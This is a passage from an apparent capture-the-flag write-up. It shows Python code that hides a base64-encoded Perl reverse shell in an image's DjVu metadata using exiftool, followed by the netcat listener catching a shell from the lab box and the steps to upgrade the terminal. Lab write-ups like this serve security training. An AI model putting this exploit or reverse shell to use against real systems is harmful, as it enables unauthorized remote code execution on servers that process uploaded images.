     payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )        
        
    payload = payload + b"'))};\")"    
        
        
    payload_file = open('payload', 'w')    
    payload_file.write(payload.decode('utf-8'))    
    payload_file.close()    
        
        
    subprocess.run(['bzz', 'payload', 'payload.bzz'])    
    subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])    
    subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg'])
    

It builds a payload that looks like a Perl reverse shell, and then uses `bzz`,
`djvumake`, and `exiftool` to add it to the image, `image.jpg`. I’ll update
the ip and port to 10.10.14.6 and 443 and run it:

    
    
    oxdf@hacky$ python exploit.py 
        1 image files updated
    

I’ll start `nc` and upload that image to the site, and a shell connects back:

    
    
    oxdf@hacky$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.119.
    Ncat: Connection from 10.10.11.119:51622.
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    

I’ll upgrade my shell using `script`:

    
    
    $ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@overflow:~/devbuild-job/home/profile$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@overflow:~/devbuild-job/home/profile$
    

## Shell as developer

### Enumeration
